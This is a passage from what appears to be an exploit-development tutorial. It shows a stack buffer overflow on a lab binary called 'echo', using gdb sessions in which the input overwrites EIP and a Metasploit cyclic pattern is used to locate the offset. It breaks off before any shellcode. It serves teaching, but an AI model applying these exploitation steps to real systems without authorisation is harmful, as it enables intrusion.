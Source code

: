 1. Control of the instruction pointer (EIP).
2. Somewhere to put our shellcode.
3. The address of our shellcode in the applications memory.

### EIP Control

Let's start up `gdb` and run the application with our overflow data to see what's going on in the crash we caused with the remote fuzzer.

Note that the number of A's you use in the input will be different for the face to face version. Also note that if you're running kali-64, you will need to install the 32 libc libraries - `apt-get install libc6-dev-i386`.

```
root@kali:~# python -c 'print "A"*270' > input
root@kali:~# gdb ./echo -q
Reading symbols from /root/echo...(no debugging symbols found)...done.
gdb$ r < input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -11280
Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
  EAX: 0x00000115  EBX: 0xF7FBCFF4  ECX: 0xFFFFD3CC  EDX: 0xF7FBE360  o d I t S z A p c 
  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x41414141  ESP: 0xFFFFD4F8  EIP: 0x41414141
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002BError while running hook_stop:
Cannot access memory at address 0x41414141
0x41414141 in ?? ()
```

We see that EIP contains the value `0x41414141` which is "AAAA" is ascii proving that our input has overwritten return address of the `echo()` function. Now what we'd like to know if which of the A's in our input buffer these are so that we can change them and redirect execution to an address of our choice.

To do this we're going to use some of the exploit tools provided by metasploit:

```
gdb$ q
root@kali:~# /usr/share/metasploit-framework/tools/pattern_create.rb 270 > input
root@kali:~# cat input 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9
``` 

If we now run this input within GDB we see the following:

```
root@kali:~# gdb ./echo -q
Reading symbols from /root/echo...(no debugging symbols found)...done.
gdb$ r < input 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9 -11280
Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
  EAX: 0x00000115  EBX: 0xF7FBCFF4  ECX: 0xFFFFD3CC  EDX: 0xF7FBE360  o d I t S z A P c 
  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x69413569  ESP: 0xFFFFD4F8  EIP: 0x37694136
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002BError while running hook_stop:
Cannot access memory at address 0x37694136
0x37694136 in ?? ()
```
